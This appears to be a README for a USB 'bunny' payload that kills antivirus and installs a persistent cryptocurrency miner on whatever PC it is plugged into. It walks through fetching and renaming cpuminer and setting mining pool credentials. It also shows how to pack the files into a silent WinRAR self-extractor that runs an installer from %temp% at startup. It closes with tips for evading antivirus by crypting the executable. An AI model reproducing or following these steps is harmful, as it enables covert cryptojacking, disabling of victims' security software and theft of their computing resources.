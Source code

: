 ################### Configuration ####################

How it works:

 The bunny will start by killing AV and after that it will run a non-silent process of the cpu miner and then silently install 
 the miner with all its files to your pc for startup.I cannot teach you how to run the miner silently.Please do not add silence when contributing to it.
 If you wish to contribute,please follow this link and help us make it better:

 https://github.com/Rinilyn/USB-Persistent-CPU-Miner

CONFIGURATION:
STEP 1:

 You will need to go to:
 https://github.com/tpruvot/cpuminer-multi/releases
 
 This payload was tested with version 1.3 But you may try to use version  1.3.1 or above.
 Direct link to version 1.3:
 
 https://github.com/tpruvot/cpuminer-multi/releases/download/v1.3-multi/cpuminer-multi-rel1.3.zip
 
 Extract the EXE's and use the x86 (32Bit) version due to its support for both 32Bit and 64Bit CPU.
 Add "cpuminer-x86.exe" and "msvcr120.dll" to the payload folder.
 Rename the exe to 2.exe
 
STEP 2:

#Please change the credentials in "config.txt" to this format:
 <algorithim>
 <pool stratum>
 <username/wallet>
 <cores/threads>
 
 Example: 

cryptonight
stratum+tcp://fcn-xmr.pool.minergate.com:45590
equalizercolander@protonmail.com
4
(Check step 2 for more info)
STEP 3:
#Change the start.bat to your own credentials!!
 
#Currently start.bat runs the following as an example:
 
 2 -a cryptonight -o stratum+tcp://fcn-xmr.pool.minergate.com:45590 -u equalizercolander@protonmail.com -p x -t 2
  
** 2 is the EXE name
** -a cryptonight (do not change that)
** -o stratum (change that to whatever you wish to mine)

BCN 
stratum+tcp://bcn.pool.minergate.com:45550

XMR 
stratum+tcp://xmr.pool.minergate.com:45560

XDN 
stratum+tcp://xdn.pool.minergate.com:45620

QCN 
stratum+tcp://qcn.pool.minergate.com:45570

FCN 
stratum+tcp://fcn.pool.minergate.com:45610

MCN 
stratum+tcp://mcn.pool.minergate.com:45640

AEON
stratum+tcp://aeon.pool.minergate.com:45690

DSH 
stratum+tcp://dsh.pool.minergate.com:45720

INF8
stratum+tcp://inf8.pool.minergate.com:45750

Merged mining with FCN:
stratum+tcp://fcn-xmr.pool.minergate.com:45590
stratum+tcp://fcn-qcn.pool.minergate.com:45600
stratum+tcp://fcn-dsh.pool.minergate.com:45730
stratum+tcp://fcn-inf8.pool.minergate.com:45760

Merged mining with MCN:
stratum+tcp://mcn-qcn.pool.minergate.com:45670
stratum+tcp://mcn-dsh.pool.minergate.com:45740
stratum+tcp://mcn-inf8.pool.minergate.com:45770

** -u (email) Replace with your minergate email!
** -p x (Do not edit)
** -t 2 (Number of threads)



########### Creating the self-installing EXE #########

STEP 4:

Select the following:

1. install.vbs
2. setup.bat
3. start.vbs
4. start.bat
5. msvcr120.dll
6. 2.exe

 Use WinRAR to create a new archive
 with them. Use the following options:

 Select Compression Method = best
 Select Create SFX archvive

 Now go to tab “Comment” and paste the following lines:


Path=%temp%
SavePath
Setup="%temp%\install.vbs"
Silent=1
Overwrite=1

Once Done,rename the archive to PersBunnyMiner.exe
DONE!!

FAQ:

#WHY EDIT 2 FILES, config.txt and start.bat?

config.txt is for the miner that will launch immeadiatly when the bunny is plugged.
start.bat will be the one used when the pc boots.
i will later work on reducing the required steps for the payload to work.


#Is this payload Detectable by Antivirus?
AVs might detect this. This can be evaded by using custom miners or by "modifying" the 2.exe (crypting)
TIP: AVs can't scan network drives ;)


#How can i tell if the miner installed and will run at boot?
Opening task manager will show the app running every time the pc starts up.
I will be including a script that cleans the miner once installed. 



